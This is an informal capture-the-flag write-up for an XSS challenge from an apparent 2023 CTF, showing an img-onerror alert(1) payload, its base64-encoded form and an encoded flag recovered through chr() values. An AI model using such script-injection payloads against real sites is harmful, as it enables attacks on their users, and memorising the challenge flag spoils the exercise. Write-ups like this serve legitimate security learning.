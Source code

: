 # 7 - now that's xss

That challange took me sometime, because it's my first succed xss

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/7/1.png)

That page looked like that

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/7/2.png)

and here was form for payload

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/7/3.png)

```
<img src="x" onerror = "alert(1)">
```

but encoded in base64

```
PGltZyBzcmM9ImZvbyIgb25lcnJvcj0iYWxlcnQoMSkiPg==
```

i've recieved that flag and decrypted that in python:

```
Flag: chr(84)||chr(86)||chr(78)||chr(73)||chr(85)||chr(70)||chr(57)||chr(55)||chr(81)||chr(71)||chr(89)||chr(107)||chr(81)||chr(69)||chr(119)||chr(122)||chr(78)||chr(69)||chr(100)||chr(107)||chr(83)||chr(68)||chr(70)||chr(53)||chr(99)||chr(107)||chr(108)||chr(52)||chr(102)||chr(81)||chr(61)||chr(61)
```

and then recieved flag base64 encoded so I've decoded it and reported it to the bot:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/7/4.png)